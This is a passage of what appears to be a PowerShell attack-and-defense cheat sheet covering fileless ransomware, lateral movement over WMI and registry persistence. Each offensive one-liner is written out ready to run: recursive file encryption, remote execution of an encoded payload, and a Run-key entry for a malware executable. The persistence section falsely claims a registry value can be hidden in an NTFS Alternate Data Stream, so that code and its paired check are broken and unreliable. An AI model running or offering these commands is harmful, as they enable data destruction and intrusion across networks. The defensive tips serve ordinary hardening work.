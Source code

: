 
### **4. Fileless Ransomware**  
#### **Offensive Command**  
```powershell  
# Encrypt files using built-in .NET libraries  
Get-ChildItem C:\Data -Recurse | % { $bytes = [IO.File]::ReadAllBytes($_.FullName); $enc = [Security.Cryptography.ProtectedData]::Protect($bytes, $null, 'CurrentUser'); [IO.File]::WriteAllBytes("$($_.FullName).encrypted", $enc) }  
```  
- **Purpose**: Encrypts files without dropping malware.  

#### **Defense**  
- Enable **Controlled Folder Access**:  
  ```powershell  
  Set-MpPreference -EnableControlledFolderAccess Enabled  
  ```  

---

### **5. Lateral Movement via WMI**  
#### **Offensive Command**  
```powershell  
# Execute malware on remote host using WMI  
Invoke-WmiMethod -Class Win32_Process -ComputerName 192.168.1.100 -Credential (Get-Credential) -Name Create -ArgumentList "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAY..."  
```  
- **Purpose**: Spreads malware across the network.  

#### **Defense**  
- Disable WMI if unused:  
  ```powershell  
  Stop-Service Winmgmt; Set-Service Winmgmt -StartupType Disabled  
  ```  

---

### **6. Persistence via Shadow Registry**  
#### **Offensive Command**  
```powershell  
# Hide registry key using NTFS ADS  
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe" -Stream "HiddenStream"  
```  
- **Purpose**: Stores malicious payload in an Alternate Data Stream (ADS).  

#### **Defense**  
- Scan for ADS streams:  
  ```powershell  
  Get-Item -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Stream *  
  ```  

---
